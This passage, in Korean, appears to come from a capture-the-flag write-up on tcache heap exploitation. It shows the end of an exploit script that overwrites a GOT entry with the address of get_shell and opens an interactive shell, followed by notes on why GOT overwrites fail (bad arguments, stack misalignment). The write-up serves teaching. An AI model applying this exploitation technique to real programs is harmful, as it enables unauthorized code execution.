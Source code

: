```py
# tc_idx = 0
# chunk : ptr[2]
create(0x20, b'a')

# 여기서 tcache를 통해 가져오지 않게 됨
# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

<br>

## 참고

이번 문제에서는 이 경우는 아니지만, 일반적으로 `GOT overwrite`에 성공하였으나 공격이 실패하는 경우는 아래와 같다.

1. 함수 호출 시 `인자`가 올바르지 않은 경우.

예를 들어, `printf("%s", &a)`의 `printf@got`를 `system()`으로 덮은 경우, `system("%s")`가 실행되어 공격에 실패한다.

2. `stack` 정렬이 되어 있지 않아, `xmm`오류가 발생하는 경우

일반적으로, 함수의 시작점으로 `got`를 덮은 경우 오류가 발생하지 않는다. 다만 함수의 **중간**으로 이동하는 경우 해당 오류가 발생할 수 있다.
